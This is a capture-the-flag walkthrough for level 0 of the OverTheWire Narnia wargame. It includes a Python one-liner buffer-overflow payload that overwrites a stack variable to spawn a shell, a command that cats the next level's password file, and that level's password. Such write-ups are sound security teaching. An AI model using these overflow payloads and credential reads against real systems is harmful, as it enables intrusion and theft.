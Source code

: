# Walkthrough for the Narnia of OTW

## Introduction:
Try it for yourself before you look for help ;)

## Preparations
I added the server ``narnia.labs.overthewire.org'' and port 2226
into the ssh config file:

    Host narnia.labs.overthewire.org
    port 2226

## Level 0:

Username: narnia0
Passwort: narnia0

The file ist stored in the directory /narnia, the application
is named narnia0, the source code is given in the file narnia0.c.

    cd /narnia

First of all we run the application once and take a look, what it does.

    ./narnia0

After prompting us with the target to change (aka. ``correct'') the value
from 0x41414141 -> 0xdeadbeef we are given the chance to enter something.
Entering ``something'' results in a hint, that this was not correct

    ./narnia0
    something

A single look into the source shows the path. The memory layout and use
of scanf cries for a buffer overflow. Now we just have to generate the payload
and ship it to the program.

Python can be used to create the payload:

    python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))" | ./narnia0

which can be piped to the file. Now we are not yelled at, but nothing more is
happening. This is due to line 32. The opened shell is closed directly. This
can be fixed by piping multiple commands into the application:

    (python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))"; cat)
        | ./narnia0

%TODO: find a good source for this...

With the command ``whoami'' we can check, if everything worked:
    whoami
    -> narnia1

Fine, seems like it worked! Now we cat the password for the next level

    cat /etc/narnia_pass/narnia1



## Level 1:

Username: narnia1
Passwort: efeidiedae
